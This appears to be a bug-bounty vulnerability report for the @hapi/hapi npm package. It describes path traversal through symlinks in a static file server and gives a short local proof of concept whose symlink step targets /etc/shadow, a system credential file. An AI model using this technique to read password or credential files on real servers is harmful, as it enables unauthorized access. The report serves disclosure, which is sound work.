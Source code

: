 <!-- Thanks for contributing to huntr! -->
I would like to report Path traversal via Symlink in hapi npm package.

Module module name: hapi/hapi version: 19.1.1 npm page: https://www.npmjs.com/package/@hapi/hapi

Description: 
With a symbolically linked file in the working directory, it is possible to read arbitrary files outside of the web root directory.

PoC: 
1. Install the hapi: **npm i @hapi/hapi**
2. Run the server as: **node static_server.js**. 
Mentioning the code for static_server.js file below - 
`const Path = require('path');
const Hapi = require('@hapi/hapi');
const Inert = require('@hapi/inert');

const init = async () => {

    const server = new Hapi.Server({
	host: 'localhost',
        port: 3000,
        routes: {
            files: {
                relativeTo: Path.join(__dirname, 'public')
            }
        }
    });

    await server.register(Inert);

    server.route({
        method: 'GET',
        path: '/{param*}',
        handler: {
            directory: {
                path: '.',
                redirectToSlash: true
            }
        }
    });

    await server.start();

    console.log('Server running at:', server.info.uri);
};

init();`

3. Create a symlink file within the directory ln -s /etc/shadow test_shadow.html
4. Request the file within browser http://localhost:3000/test_shadow.html

Recommendation: 
Reject the symbolically linked path files.
